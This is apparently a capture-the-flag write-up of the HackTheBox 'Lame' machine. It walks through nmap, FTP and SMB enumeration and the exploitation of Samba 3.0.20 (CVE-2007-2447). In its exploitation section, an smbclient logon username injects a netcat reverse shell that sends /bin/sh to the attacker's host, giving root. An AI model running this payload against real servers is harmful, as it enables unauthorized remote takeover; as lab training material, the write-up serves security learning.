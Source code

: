 ```yaml
---
title: Lame
tags:
  - HackTheBox
  - Easy
  - Linux
  - Metasploit
date: 2024-08-30T00:00:00Z
---
```

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.3 lame.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- lame.htb > sC.txt

[redacted]
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

As you can see above, anonymous login is enabled, so I tried it:

```shell
ftp anonymous@lame.htb
```

But I didn't find anything, so I decided to check the port 139 (related to SMB):

```shell
Password for [WORKGROUP\gitblanc]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

It also had anonymous login, and 3 disk are seen. First, I connected to `/tmp` and perform a `ls`:

```shell
smbclient  //lame.htb/tmp

[redacted]
smb: \> ls
  5569.jsvc_up                        R        0  Wed Oct 30 15:50:54 2024
  .ICE-unix                          DH        0  Wed Oct 30 15:49:51 2024
  vmware-root                        DR        0  Wed Oct 30 15:49:55 2024
  .X11-unix                          DH        0  Wed Oct 30 15:50:17 2024
  .X0-lock                           HR       11  Wed Oct 30 15:50:17 2024
  vgauthsvclog.txt.0                  R     1600  Wed Oct 30 15:49:50 2024
```

Then I downloaded `vgauthsvclog.txt.0`:

```shell
get vgauthsvclog.txt.0

[redacted]
[Oct 30 10:49:50.298] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Oct 30 10:49:50.298] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Oct 30 10:49:50.298] [ message] [VGAuthService] Group 'service'
[Oct 30 10:49:50.298] [ message] [VGAuthService]         samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Oct 30 10:49:50.298] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Oct 30 10:49:50.362] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Oct 30 10:49:50.362] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Oct 30 10:49:50.362] [ message] [VGAuthService] Group 'service'
[Oct 30 10:49:50.362] [ message] [VGAuthService]         samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Oct 30 10:49:50.362] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Oct 30 10:49:50.363] [ message] [VGAuthService] Cannot load message catalog for domain 'VGAuthService', language 'C', catalog dir '.'.
[Oct 30 10:49:50.364] [ message] [VGAuthService] INIT SERVICE
[Oct 30 10:49:50.364] [ message] [VGAuthService] Using '/var/lib/vmware/VGAuth/aliasStore' for alias store root directory
[Oct 30 10:49:50.397] [ message] [VGAuthService] SAMLCreateAndPopulateGrammarPool: Using '/usr/lib/vmware-vgauth/schemas' for SAML schemas
[Oct 30 10:49:50.435] [ message] [VGAuthService] SAML_Init: Allowing 300 of clock skew for SAML date validation
[Oct 30 10:49:50.435] [ message] [VGAuthService] BEGIN SERVICE
```

Didn't give me anything interesting, so I decided to take a look at the Samba version previously found.

## Weaponization

I searched for "Samba 3.0.20 exploit" and found [CVE-2007-2447](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

```shell
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > show targets
    ...targets...
msf exploit(usermap_script) > set TARGET lame.htb
msf exploit(usermap_script) > show options
    ...show and set options...
msf exploit(usermap_script) > exploit
```

## Explotation

I had to read the exploit (*because it didn't work with the msfconsole*). This is basically the vulnerability:

![](Pasted%20image%2020241030162738.png)

This can be applied to the moment we establish a connection to bypass login (username parameter):

```shell
smbclient //lame.htb/tmp

[redacted]
smb: \> logon "/=`nohup nc -nv 10.10.14.13 666 -e /bin/sh`"
```

![](Pasted%20image%2020241030163018.png)

> We directly become root! 

Now we can see the user and root flag:

![](Pasted%20image%2020241030163137.png)

![](Pasted%20image%2020241030163222.png)

==Machine pwned!==